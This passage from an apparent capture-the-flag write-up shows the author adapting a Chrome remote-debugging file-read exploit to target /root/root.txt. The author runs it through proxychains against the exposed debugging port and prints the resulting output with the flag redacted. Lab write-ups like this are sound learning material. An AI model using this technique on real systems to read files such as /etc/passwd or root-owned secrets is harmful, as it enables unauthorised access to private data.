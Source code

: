 Modifying a couple of things:

- Changing the `victim` to `127.0.0.1`.
- Making it possible to pass the target `port` as command line argument.
- Changing the url from `file:///etc/passwd` to `file:///root/root.txt`.

Now, when I see Chrome running next time, I will run the exploit using proxychains with the port specified in the `--remote-debugging-port` argument.

After a couple of failed attempts, I got the root flag.

```console
$ proxychains -q ./chrome_remote_debug_lfi.py 44523
ws://127.0.0.1:44523/devtools/page/3FC55BCC759CB7D158BDB700C2E84ADE
{"id":3592,"result":{"frameId":"3FC55BCC759CB7D158BDB700C2E84ADE","loaderId":"B35E879C2B29484750665A8B1EF9A15A"}}
{"id":3593,"result":{"result":{"type":"string","value":"<html><head></head><body><pre style=\"word-wrap: break-word; white-space: pre-wrap;\">[REDACTED]\n</pre></body></html>"}}}
```